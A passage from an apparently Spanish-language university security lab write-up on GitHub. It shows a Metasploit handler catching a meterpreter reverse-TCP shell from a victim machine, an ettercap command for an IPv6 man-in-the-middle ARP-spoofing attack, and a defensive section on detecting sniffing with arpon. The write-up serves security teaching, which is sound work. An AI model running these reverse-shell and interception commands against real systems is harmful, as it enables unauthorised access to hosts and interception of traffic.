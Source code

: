 11. Desde el atacante, abrimos la consola de **Metasploit**:

```bash
msfconsole
```
```bash
use multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.11.48.51
set LPORT 5555
set ExitOnSession false
exploit -j -z
```

Ahora estamos dentro de la máquina víctima desde el atacante.

> [!NOTE] 
> Si la sesión se queda pillada, usamos `sessions 1`.  
> Para salir, podemos ejecutar:  
>   ```bash
>   msf6 exploit(multi/handler) > exit -y
>   ```

<p align="right"><a href="#top">back to top</a></p>

## APARTADO H 
### MITM en IPv6

Haga un ataque **MITM** en IPv6 y visualice la paquetería.

```bash
ettercap -6 -T -q -i ens33 -M arp:remote //2002:a0b:3136::1/ //::10.11.48.1/
```

> [!NOTE]
> El resto del proceso funciona igual que en el [segundo apartado](https://github.com/Meleagrista/legislacion-seguridad-informatica/edit/main/practica-2/p2-defensa.md#apartado-b).

<p align="right"><a href="#top">back to top</a></p>

## APARTADO I
Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).
> `apt install arpon`

- Para vaciar la tabla arp: `ip -s -s neigh flush all`
> `nano /etc/arpon.conf`

```bash
#
# ArpON configuration file.
#
# See the arpon(8) man page for details.
#
#
# Static entries matching the ens33 network interface:
#
10.11.48.1	    dc:08:56:10:84:b9
10.11.49.51	    00:50:56:97:24:d0
```
- Para saber la dirección mac: `ip addr show`
- Para saber si nos han spoofeado: `ip neigh show`, y ver que la dirección gateway.
  